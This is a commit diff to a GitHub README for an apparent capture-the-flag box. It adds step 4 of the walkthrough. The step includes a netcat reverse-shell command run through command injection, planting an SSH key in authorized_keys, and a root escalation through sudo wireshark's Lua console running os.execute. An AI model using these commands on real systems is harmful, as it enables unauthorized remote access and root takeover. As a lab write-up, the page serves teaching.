

Before and after one commit to fabienleite/jeanmi-construction, a Markdown page: README.md, the part around the change. Shown at 80% size. Drawn GitHub-style; pictures changed too: screenshots/screenshot_step4_X11.png (added), screenshots/screenshot_step4_flag.png (added), screenshots/screenshot_step4_lua_id.png (added); blank space fills up the shorter version.

Commit message:
WriteUp Step4 added

````diff
--- a/README.md
+++ b/README.md
@@ -207,7 +207,69 @@ $ cat /home/jeanmi/flag
 
 ### Step 4
 
-> WIP
+Now that you are able to execute commands on the server, you can gain an access with a reverse shell.
+For that execute on your own computer
+``` sh
+$ nc -nlvp 51337
+```
+
+And then execute on the server via the command injection
+
+```sh
+$ nc -e /bin/sh <YOU IP> 51337
+```
+
+Now that you can easily execute any command, gain SSH access by adding your SSH public key in ```/home/jeanmi/.ssh/authorized_keys```
+Then connect to the server with SSH.
+
+
+Once you are connected, you can check jeanmi's sudo right.
+
+```sh
+$ sudo -l
+```
+<img src="screenshots/screenshot_step4_sudo.png" width="700em" style="margin-left: auto; margin-right: auto;">
+
+You can execute wireshark as root. But wireshark is a GUI software so you need X11 forwarding.
+
+Hopefully, it seems up on the server.
+
+<img src="screenshots/screenshot_step4_X11.png" width="700em" style="margin-left: auto; margin-right: auto;">
+
+So, you can connect via SSH to the server with X11Forwarding
+
+```sh
+ssh -Y jeanmi@<SERVER IP>
+```
+
+Now you can execute wireshark as root.
+
+```sh
+sudo /usr/bin/wireshark
+```
+
+Once wireshark opened, by clicking on _Tools_ > _Lua_ > _Evaluate_ you'll be able to execute LUA.
+
+<img src="screenshots/screenshot_step4_wireshark.png" width="700em" style="margin-left: auto; margin-right: auto;">
+
+In the console you can write LUA code. The output will be on the shell where you launched wireshark.
+
+```lua
+os.execute("id")
+```
+
+<img src="screenshots/screenshot_step4_lua_id.png" width="700em" style="margin-left: auto; margin-right: auto;">
+
+So you can print the flag.
+
+```lua
+os.execute("cat /root/flag")
+```
+
+<img src="screenshots/screenshot_step4_flag.png" width="700em" style="margin-left: auto; margin-right: auto;">
+
+
+
 
 ## License
 
````
